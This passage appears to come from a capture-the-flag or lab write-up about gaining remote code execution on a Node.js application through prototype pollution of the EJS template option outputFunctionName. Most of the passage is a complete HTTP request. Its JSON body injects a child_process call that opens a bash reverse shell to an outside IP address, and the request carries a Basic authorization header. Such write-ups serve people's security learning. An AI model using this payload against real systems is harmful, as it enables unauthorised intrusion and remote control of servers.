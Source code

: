 I tried interacting with the application and injecting some other JSON data:

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

The RCE exploit lies in overwriting `outputFunctionName`. When researching for how to exploit this, I came across this article:

{% embed url="https://eslam.io/posts/ejs-server-side-template-injection-rce/" %}

We can then exploit it using basic Prototype Pollution:

```http
POST /change_status HTTP/1.1
Host: 192.168.183.184:8000
User-Agent:googlebot
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic VW5kZWFkRGluZ29HcnVtYmxpbmczNjk6U2hvcnR5U2tpbmxlc3NUcnVzdGVlNDU2
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 165



{"shields":{"__proto__":{
"outputFunctionName":"x;process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/192.168.45.208/80 0>&1\"');x"
}}}
```

It didn't work at first, and upon sending a GET request to `/reset`, it worked!

<figure><img src="../../../.gitbook/assets/image (33) (1).png" alt=""><figcaption></figcaption></figure>

